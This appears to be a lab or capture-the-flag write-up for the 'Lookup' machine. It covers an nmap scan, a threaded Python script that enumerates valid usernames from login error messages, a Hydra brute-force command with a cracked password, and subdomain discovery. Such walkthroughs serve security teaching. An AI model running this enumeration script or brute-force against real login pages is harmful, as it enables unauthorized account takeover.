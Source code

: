 ### Intro
_Lookup_ features real-world vulnerabilities like web app flaws and privilege escalation. It teaches key skills such as reconnaissance, enumeration, command injection, and scripting for automation—offering valuable experience in penetration testing and secure coding practices.
#### Nmap
```bash
nmap -p- -A 10.10.248.120
Starting Nmap 7.80 ( https://nmap.org ) at 2025-07-14 22:49 BST
Nmap scan report for ip-10-10-248-120.eu-west-1.compute.internal (10.10.248.120)
Host is up (0.00021s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://lookup.thm
MAC Address: 02:55:1A:4A:B6:E7 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=7/14%OT=22%CT=1%CU=41006%PV=Y%DS=1%DC=D%G=Y%M=02551A%T
OS:M=68757B71%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10A%TI=Z%CI=Z%II=I
OS:%TS=A)OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11N
OS:W7%O5=M2301ST11NW7%O6=M2301ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F
OS:4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T
OS:=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=
OS:40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0
OS:%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R
OS:=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.21 ms ip-10-10-248-120.eu-west-1.compute.internal (10.10.248.120)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.87 seconds
```

Browsing the IP gives us `We can’t connect to the server at lookup.thm.`, meaning the computer tried to reach the address `http://lookup.thm` but couldn't find or connect to the server. To overcome this issue we need to map the `ip` to `hostname` in `/etc/hosts (a local file where you manually map hostnames to IP addresses)` file because the internal lab domains aren't publicly registered. 

#### Browse the hostname
```bash
lookup.thm
```
- We get a basic login page.

When we try to input some random creds, we get an error message saying `Wrong username or password. Please try again. Redirecting in 3 seconds.` However, when we try default creds like `admin:admin`, we only get `Wrong password. Please try again. Redirecting in 3 seconds.` We can also see that the `HTTP Method: POST` and `Subdirectory: login.php` pop up for a few seconds. We can confirm this by nmap scan.

#### Nmap to Discover the Login Page
```bash
nmap -p80 --script http-enum <IP>
```

Now that we have managed to find the login page, we can try to `brute-force` this page. Before finding passwords we need to find users in the website. One of the users is `admin`, we can confirm that from earlier error message. We can use a Python script to find users.

#### Python Script to Enumerate Users
```python
import requests
from concurrent.futures import ThreadPoolExecutor
import threading
from urllib.parse import urljoin

print_lock = threading.Lock()

def is_valid_user(response):
    invalid_msg = "Wrong username or password. Please try again.<br>Redirecting in 3 seconds."
    return not (response.text.strip() == invalid_msg and len(response.text.strip()) == 74)

def check_username(session, post_url, username_field, password_field, fake_password, username):
    data = {username_field: username, password_field: fake_password}
    try:
        response = session.post(post_url, data=data, timeout=10)
        if is_valid_user(response):
            with print_lock:
                print(f"[+] Valid username: {username}")
    except requests.RequestException:
        pass  # silently ignore errors

def main():
    print("=== User Enumeration (Only Valid Users Output) ===\n")
    base_url = input("Base URL (e.g. http://lookup.thm/): ").strip()
    post_path = input("Login form action path (e.g. login.php): ").strip()
    post_url = urljoin(base_url, post_path)
    username_field = input("Username field name (e.g. username): ").strip()  # The username and password fields can be extracted from 
    password_field = input("Password field name (e.g. password): ").strip()  # the source page under username and password snippets.
    fake_password = input("Fake password to use (e.g. Invalid123!): ").strip()
    wordlist_path = input("Path to username wordlist: ").strip()
    threads = input("Number of threads to use (default 10): ").strip()
    threads = int(threads) if threads else 10

    session = requests.Session()
    try:
        with open(wordlist_path, "r") as f:
            usernames = [line.strip() for line in f if line.strip()]
    except FileNotFoundError:
        print("[!] Wordlist file not found.")
        return

    print(f"\n[*] Starting scan with {threads} threads...\n")

    with ThreadPoolExecutor(max_workers=threads) as executor:
        for username in usernames:
            executor.submit(check_username, session, post_url, username_field, password_field, fake_password, username)

if __name__ == "__main__":
    main()
```

Note: `Make sure to use the domain name instead of the IP address.` We have managed to extract two usernames `admin` and `jose`. Now, it's time to brute-force the password for these users.

#### Brute Force with Hydra
```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form '/login.php:username=jose&password=^PASS^:F=Wrong' -t 32
```
- Password is `password123.`

We now use these credentials to login in but like earlier we get nothing. When we inspect the `Network` tab and login with the creds again, we get a new subdomain `files.lookup.thm`. 

This technique is called `Virtual Hosting`, where multiple domain names are hosted on the same IP. The web server uses the `Host header in the HTTP request` to determine which site to server.

We can map this subdomain to the IP like we did earlier.

#### Map the Subdomain
```bash
sudo vim /etc/hosts
IP     files.lookup.thm
```

Once that is done, refresh the page and we are inside the website. There are a lot of files and we can check all of them. 